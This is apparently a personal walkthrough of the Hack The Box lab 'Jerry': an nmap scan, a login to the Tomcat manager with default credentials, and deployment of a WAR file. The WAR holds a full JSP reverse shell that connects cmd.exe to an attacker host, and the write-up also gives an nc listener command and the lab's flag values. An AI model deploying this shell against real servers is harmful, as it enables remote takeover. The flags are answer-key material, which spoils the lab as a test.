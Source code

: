#easy

## 0. **Lab infos**

**Difficulty :** Easy
**Name :** Jerry
**IP** : 10.129.22.213
**Objectives :** Get the user and admin flags
**OS :** #Windows

##### **Conclusion**
**Time :** 34min
	**Start :** 23.21 / 11.04.2025
	**Break at/to :** 
	**Finish :** 23.55 / 11.04.2025
**Satisfaction :**  10/10 Very easy but no challenge
### 1. **Reconnaissance

We start with an #nmap scan :

```BASH
┌─[eu-dedivip-1]─[10.10.14.154]─[bobinette@htb-p3rcsf8a1g]─[~]
└──╼ [★]$ nmap  10.129.22.213
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-11 16:22 CDT
Nmap scan report for 10.129.22.213
Host is up (0.0076s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

We go on the ip address with the port and we can see an TomCat app. We search some CVE but nothing interesting.

So we search for the relative path on the webserver leads to the Web Application Manager and we fin that is `/manager/html`

While we want to connect it's show us the default credentials : `tomcat:s3cret`
and it's work. We can see on the manager page that we can upload some .war file.

## 2. **Weaponization

revshell.jsp (Windows Reverse Shell) #RCE
```JSP
<%@ page import="java.io.*, java.net.*" %>
<%
String host = "YOUR_IP";
int port = YOUR_PORT;
Socket socket = new Socket(host, port);
Process process = new ProcessBuilder("cmd.exe").redirectErrorStream(true).start();
InputStream pi = process.getInputStream(), pe = process.getErrorStream(), si = socket.getInputStream();
OutputStream po = process.getOutputStream(), so = socket.getOutputStream();
while (!socket.isClosed()) {
    while (pi.available() > 0) so.write(pi.read());
    while (pe.available() > 0) so.write(pe.read());
    while (si.available() > 0) po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        process.exitValue();
        break;
    } catch (Exception e) {}
}
process.destroy();
socket.close();
%>
```

web.xml (Minimal Deployment Descriptor)

```XML
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" version="3.1">
    <display-name>ReverseShell</display-name>
</web-app>
```

Structure 

```
reverse-shell/
├── WEB-INF/
│   └── web.xml
└── revshell.jsp
```

WAR File Generation Command:

```BASH
jar -cvf revshell.war -C revshell/ .
```

## 3. **Delivery

We upload the .war file here :

![[Pasted image 20250412000454.png]]


## 4. **Exploitation

`nc -lvnp 4444`

We go to `http://10.129.22.213:8080/rceee/shell.jsp`

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

```POWERSHELL
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
